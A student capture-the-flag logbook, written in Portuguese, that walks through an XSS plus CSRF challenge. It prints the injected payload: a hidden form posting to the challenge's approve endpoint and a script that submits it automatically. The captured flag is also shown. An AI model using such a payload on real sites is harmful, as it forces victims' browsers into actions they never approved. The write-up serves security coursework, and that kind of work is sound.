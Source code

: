 # LOGBOOK6 - CTF - XSS + CSRF
<div align="justify">
<p>Neste CTF, ao entrar no site mencionado, deparamo nos com uma caixa de texto na qual podemos inserir qualquer tipo de conteúdo, e o administrador fornecerá a flag dependendo do input. Para analisar o que acontece no site, inserimos um texto e observamos que há uma página com um formulário onde o administrador decide se o input enviado é aceitável (fornecendo assim a flag) ou não.
Com isso em mente, pensamos que poderia ser possível inserir um formulário idêntico ao que o administrador tinha acesso, mas com um 'script' que 'forçasse' o administrador a aceitar o que era enviado.
Analisando o código-fonte da página, verificamos que o 'formulário' que precisa de ser enviado, fornecendo a flag, possui o seguinte código:</p>
</div>

```html
<form method="POST" action="/request/6b14dc9c65f712d891dfffadbfcec3d631d032d4/approve" role="form">
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag" disabled="">
    </div>
</form>
```
Assim, para que o formulário seja 'submited' automaticamente, inserimos o seguinte 'script' no nosso input:
```html
<script>document.getElementById('fake_id').submit()</script>  
<!-- O fake_id é o id colocado no 'form' que foi colocado no input -->
```
Com isso, o 'input' que enviamos foi o seguinte:
```html
<form method="POST" id='fake_id' action="http://ctf-fsi.fe.up.pt:5005/request/6b14dc9c65f712d891dfffadbfcec3d631d032d4/approve" role="form">
    <div class="submit">     
        <input type="submit">
    </div> 
</form> 
<script>document.getElementById('fake_id').submit()</script>  
```
<div align="justify">
<p>Após o envio do nosso formulário, a página é recarregada, mostrando a flag, embora esta seja redirecionada para outra página quase instantaneamente. Portanto, para obtermos a flag, assim que enviamos a nossa resposta, pressionamos o botão 'parar' para evitar o redirecionamento automático, conseguindo então obter a flag: flag{0d190349a6f060ce425ee7ce5b35f00f}.</p>
</div>
